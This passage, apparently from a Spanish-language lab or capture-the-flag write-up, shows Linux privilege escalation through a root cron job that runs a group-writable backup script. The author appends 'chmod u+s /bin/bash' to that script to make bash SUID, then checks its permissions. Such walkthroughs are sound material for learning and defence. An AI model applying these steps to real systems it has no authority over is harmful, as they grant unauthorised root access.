 para ajustar el tamaño de la terminal para que coincida con el host.

### Enumeración de tareas programadas
Ahora listaremos los crontabs, que es la lista de tareas programadas en Linux:

```bash
ls -la /etc/cron.d/
```

Veremos algo como esto:
```
total 24
drwxr-xr-x 2 root root 4096 May 21 13:58 .
drwxr-xr-x 1 root root 4096 Jun  6 08:59 ..
-rw-r--r-- 1 root root  102 Mar 30  2024 .placeholder
-rw-r--r-- 1 root root   43 May 21 01:36 backup-cron
-rw-r--r-- 1 root root  201 Apr  8  2024 e2scrub_all
-rw-r--r-- 1 root root  712 Jan 18  2024 php
```

Vemos uno que no es creado por defecto que sería:
```
-rw-r--r-- 1 root root   43 May 21 01:36 backup-cron
```

Veremos qué contiene:
```bash
cat /etc/cron.d/backup-cron
```

```
* * * * * root bash /var/backups/backup.sh
```

### Explotación del script de backup
Vemos que ejecuta un script `.sh`, así que veremos si podemos modificar ese script con los permisos que tenga:

```bash
ls -la /var/backups/backup.sh
```

```
-rw-rw-r-- 1 conx root 246 May 22 15:47 /var/backups/backup.sh
```

Vemos que sí podemos, así que haremos lo siguiente:

```bash
echo "chmod u+s /bin/bash" >> /var/backups/backup.sh
```

Luego de esto listamos los permisos de la bash para ver si se aplicó el SUID:

```bash
ls -la /bin/bash
```

```
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
